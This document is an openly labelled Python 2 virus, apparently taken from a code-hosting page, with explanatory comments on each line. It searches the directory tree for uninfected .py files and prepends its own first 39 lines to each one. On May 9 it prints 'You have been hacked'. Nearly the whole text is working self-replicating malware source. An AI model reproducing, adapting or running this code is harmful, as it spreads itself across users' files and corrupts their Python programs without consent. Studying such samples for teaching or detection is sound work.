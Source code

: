 #!/usr/bin/python
# Load Python and import the OS and DATETIME Libraries
import os
import datetime

# Define a variable named SIGNATURE and set it to VIRUS
SIGNATURE = "VIRUS"

# Define a function called LOCATE which identifies a list of files as targets and sorts out previously infected files.
def locate(path):
    files_targeted = [] #Creates an empty array
    filelist = os.listdir(path) # Get list of files from the root "/"
    for fname in filelist: # Loop through all files in the filelist
        if os.path.isdir(path+"/"+fname): # Check if path is an existing directory
            files_targeted.extend(locate(path+"/"+fname)) # Adds this current path and files to the files_targeted list
        elif fname[-3:] == ".py": # Check if the file is Python and has the signature, if so break, else add it to the list
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname) # Adds file to list if it is not tagged as infected
    return files_targeted # Returns the newly inflated files_targeted list

# Define function infect and enumerate list of files_targeted, then write 39 blank lines into the beginning of the file
def infect(files_targeted):
    virus = open(os.path.abspath(__file__)) # Select the file
    virusstring = "" # Set the blank line
    for i,line in enumerate(virus): #For each line in a file up to line 39, loop
        if 0 <= i < 39:
            virusstring += line # Add the contents of the first 39 lines to the variable virus string
    virus.close
    for fname in files_targeted: # For each file in the list, read the contents of the file
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w") # While in the for loop, write the contents
        f.write(virusstring + temp) #but include the first 39 lines from the first selected file
        f.close()

# Define function to set off the virus on May 9th and print the message.
def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9: # Test if the month and day are 5 and 9
        print "You have been hacked"

   # First line gathers the filelist from the current path
# Second line bloats the files
# Third line prints a message on the 9th of May
files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()
